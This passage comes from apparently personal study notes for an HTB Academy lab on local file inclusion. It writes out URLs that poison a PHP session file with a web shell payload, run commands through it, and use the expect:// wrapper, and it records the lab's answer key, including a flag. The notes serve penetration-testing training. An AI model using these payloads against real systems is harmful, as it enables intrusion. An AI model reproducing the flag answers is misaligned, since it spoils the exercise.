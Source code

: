 This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

`http://example.com/index.php?language=/var/lib/php/sessions/sess_{cookie here}`

This time the session file contains session_poisoning instead of `es.php`, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using 
the following URL:

`http://example.com/index.php?language=<?php system($_GET['cmd']); ?>`

We can now include the session file and use the cmd parameter to execute operating system commands.

`http://example.com/index.php?language=/var/lib/php/sessions/sess_{cookie here}?cmd={any command here}`

**Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten by ``/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`` 
during inclusion. Also, the session ID used in the examples will differ from the one you receive from the web application, and you must change it to match yours when following 
along with the examples**.


### HTB Academy Questions:

1. Using the LFI to RCE vulnerability run the command 'cat /etc/issue'. Submit the OS version as your answer (i.e. Ubuntu 14.04.2 LTS).

A. Ubuntu 18.04.4 LTS

2. Submit the contents of the flag.txt file located in the /exercise directory.

A. 2ed328e2598271ad3d2831aa4a0c4bab

Other PHP Wrappers
==================

PHP provides some additional wrappers which can be leveraged to gain command execution.

Expect Wrapper
==============

The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL 
will return the output of the id command.


`http://example.com/index.php?language=expect://id`

Data Wrapper
============

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration. 
This can be found in the file /etc/php/X.Y/apache2/php.ini for Apache and in /etc/php/X.Y/fpm/php.ini for php-fpm used by Nginx, where X.Y is your install PHP version.

First, base64 encode a PHP web shell.

Then include it using the data wrapper as shown below.
